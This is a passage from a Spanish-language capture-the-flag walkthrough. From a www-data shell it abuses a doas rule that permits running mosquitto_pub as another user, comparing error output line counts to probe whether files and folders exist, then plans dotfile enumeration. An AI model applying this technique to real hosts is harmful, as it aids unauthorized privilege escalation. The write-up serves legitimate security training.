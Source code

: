 ```bash
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./file       
Error: Both topic and message must be supplied.
mosquitto_pub is a simple mqtt client that will publish a message on a single topic and exit.
mosquitto_pub version 2.0.11 running on libmosquitto 2.0.11.

Usage: mosquitto_pub {[-h host] [--unix path] [-p port] [-u username] [-P password] -t topic | -L URL}
                     {-f file | -l | -n | -m message}
                     [-c] [-k keepalive] [-q qos] [-r] [--repeat N] [--repeat-delay time] [-x session-expiry]
                     [-A bind_address] [--nodelay]
                     [-i id] [-I id_prefix]
                     [-d] [--quiet]
                     [-M max_inflight]
                     [-u username [-P password]]
                     [--will-topic [--will-payload payload] [--will-qos qos] [--will-retain]]
                     [{--cafile file | --capath dir} [--cert file] [--key file]
                       [--ciphers ciphers] [--insecure]
                       [--tls-alpn protocol]
                       [--tls-engine engine] [--keyform keyform] [--tls-engine-kpass-sha1]]
                       [--tls-use-os-certs]
                     [--psk hex-key --psk-identity identity [--ciphers ciphers]]
                     [--proxy socks-url]
                     [--property command identifier value]
                     [-D command identifier value]
       mosquitto_pub --help
      ...
```

O si es una carpeta:

```bash
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./folder
Error: File must be less than 268435455 bytes.

Error loading input file "./folder".

www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./filenoexist 2>&1 | wc -l
2
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./file 2>&1 | wc -l
97
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./folder 2>&1 | wc -l
3
```

Estamos ante un sistema Debian 12.

```bash
$ cat /etc/debian_version
12.7
```

Creamos un diccionario de los dotfiles más comunes en Debian desde la URL https://wiki.debian.org/DotFilesList.
